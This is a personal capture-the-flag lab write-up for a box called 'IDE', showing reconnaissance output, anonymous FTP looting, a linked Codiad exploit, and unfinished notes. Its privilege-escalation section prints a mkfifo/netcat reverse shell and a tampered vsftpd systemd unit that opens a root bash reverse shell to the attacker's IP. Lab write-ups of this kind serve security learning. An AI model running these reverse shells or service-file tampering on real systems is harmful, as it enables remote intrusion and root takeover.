



Name: IDE
Date: 10/05/2022
Difficulty: Easy
Description: An easy box to polish your enumeration skills!  
Better Description: If I had time this would be a writeup..
Goals: See how I do under time pressure while enumerating 2 other machines and 1 for learning along side this one
Learnt: Editing service files, escaping limit shell environment

## Recon
```bash
root@ip-10-10-122-213:~# ping -c 3 10.10.74.19
PING 10.10.74.19 (10.10.74.19) 56(84) bytes of data.
64 bytes from 10.10.74.19: icmp_seq=1 ttl=64 time=15.1 ms
64 bytes from 10.10.74.19: icmp_seq=2 ttl=64 time=0.508 ms
64 bytes from 10.10.74.19: icmp_seq=3 ttl=64 time=0.439 ms

--- 10.10.74.19 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2011ms
rtt min/avg/max/mdev = 0.439/5.351/15.107/6.898 ms
root@ip-10-10-122-213:~# nmap -sC -sV -p- 10.10.74.19

Starting Nmap 7.60 ( https://nmap.org ) at 2022-05-10 18:39 BST
Stats: 0:53:06 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 66.61% done; ETC: 19:59 (0:26:37 remaining)
Stats: 1:09:14 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 81.70% done; ETC: 20:04 (0:15:30 remaining)

root@ip-10-10-122-213:~# nmap -sC -sV -p- 10.10.74.19 --min-rate 5000

Starting Nmap 7.60 ( https://nmap.org ) at 2022-05-10 19:49 BST
Nmap scan report for ip-10-10-74-19.eu-west-1.compute.internal (10.10.74.19)
Host is up (0.00047s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.122.213
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (EdDSA)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Codiad 2.8.4
MAC Address: 02:70:AF:2A:89:D7 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.33 seconds
root@ip-10-10-122-213:~# nikto -h 10.10.74.19:80
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.74.19
+ Target Hostname:    ip-10-10-74-19.eu-west-1.compute.internal
+ Target Port:        80
+ Start Time:         2022-05-10 19:51:37 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x2aa6 0x5c5041c240b81 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 6544 items checked: 0 error(s) and 4 item(s) reported on remote host
+ End Time:           2022-05-10 19:51:47 (GMT1) (10 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Loot the ftp server while nikto is scanning 62337:
```bash
root@ip-10-10-122-213:~# wget -r ftp://anonymous:@10.10.74.19:21/
```
Find nothing..Second http nikto scan:
```bash
root@ip-10-10-122-213:~# nikto -h 10.10.74.19:62337
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.74.19
+ Target Hostname:    ip-10-10-74-19.eu-west-1.compute.internal
+ Target Port:        62337
+ Start Time:         2022-05-10 19:55:42 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ Cookie f9c7294bc8f6035df784b56b800b122c created without the httponly flag
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server leaks inodes via ETags, header found with file /favicon.ico, fields: 0x47e 0x5c5045aa328fe 
+ DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details.
+ /config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3268: /data/: Directory indexing found.
+ OSVDB-3092: /data/: This might be interesting...
+ OSVDB-3268: /lib/: Directory indexing found.
+ OSVDB-3092: /lib/: This might be interesting...
+ OSVDB-3092: /INSTALL.txt: Default file found.
+ OSVDB-3092: /LICENSE.txt: License file found may identify site software.
+ OSVDB-3233: /icons/README: Apache default file found.
+ Cookie 1ec459e58a8a15e1c36cd5a362f66d20 created without the httponly flag
+ 6544 items checked: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2022-05-10 19:55:53 (GMT1) (11 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```


```bash
root@ip-10-10-122-213:~# searchsploit codiad

---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Codiad 2.4.3 - Multiple Vulnerabilities       | php/webapps/35585.txt
Codiad 2.5.3 - Local File Inclusion           | php/webapps/36371.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Blank config troll `http://10.10.74.19:62337/config.php` same for files in /data/

gobuster
```bash
root@ip-10-10-122-213:~# gobuster dir -u http://10.10.74.19/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.74.19/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2022/05/10 20:02:46 Starting gobuster
===============================================================
/server-status (Status: 403)
===============================================================
2022/05/10 20:03:37 Finished
===============================================================

```

Authenticated [exploit-db](https://www.exploit-db.com/exploits/49705)

```
root@ip-10-10-122-213:~/10.10.74.19/...# mv - file
root@ip-10-10-122-213:~/10.10.74.19/...# ls
file
root@ip-10-10-122-213:~/10.10.74.19/...# cat file
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```
John + password, bitnami does not work.


And remember to follow the instruction I found they worked best if you did the first two in one window.


AND...



## PrivEsc

```bash
cat .bash_history
mysql -u drac -p [password]
```
We are in a linux jail of sorts just:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.122.213 3333 >/tmp/f
```
Better shell your way to then su as drac for user.txt 



I changed this to a walkthrough after not have the time to call this a writeup:

[solution](https://jayngng.github.io/blog/ide-thm/)

```bash
find / -writable -name vsftpd* -type f -ls 2>/dev/null;
282032      4 -rw-rw-r--   1 root     drac          248 Aug  4  2021 /lib/systemd/system/vsftpd.service
```
Because we can restart the ftp server and write to this service file we can modify [Service] commmand on startup
```bash
# Comment out this line:
# ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf

ExecStart=/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.122.213/5555 0>&1"
User=root
```
